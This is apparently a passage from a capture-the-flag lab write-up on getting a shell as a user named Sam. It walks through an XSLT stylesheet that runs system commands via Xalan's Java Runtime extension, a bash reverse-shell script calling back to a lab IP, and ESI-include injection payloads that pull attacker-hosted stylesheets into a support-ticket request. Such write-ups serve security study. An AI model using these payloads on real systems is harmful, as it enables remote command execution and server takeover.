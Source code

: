 ```ruby
```
### []()execute.xsl

```ruby

<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[./user.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>

```
* and here is the **user.sh**

```ruby

#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.16.44/9002 0>&1"

```

* let's start

# []() Got Shell as Sam

> let's Raise ticket and intercept the request with burp.

> Payload: title=sdasd&msg=asdasda&id=<esi:include+src="http://10.10.1x.xx:8000/upload.xml"+stylesheet="http://10.10.1x.xx:8000/upload.xsl">
</esi:include>

> look at this.
>
> ![](https://i.ibb.co/2ngtk5P/server.png)

> ![](https://i.ibb.co/mcv7Sxg/wget.png)

* cool, now let's run the seconed file to make my script executable.

> Payload: title=sdasd&msg=asdasda&id=<esi:include+src="http://10.10.1x.xx:8000/chmod.xml"+stylesheet="http://10.10.1x.xx:8000/chmod.xsl">
</esi:include>

> ![](https://i.ibb.co/FW2F1Zh/2.png)
>
> ![](https://i.ibb.co/Cs6Qj6G/22.png)
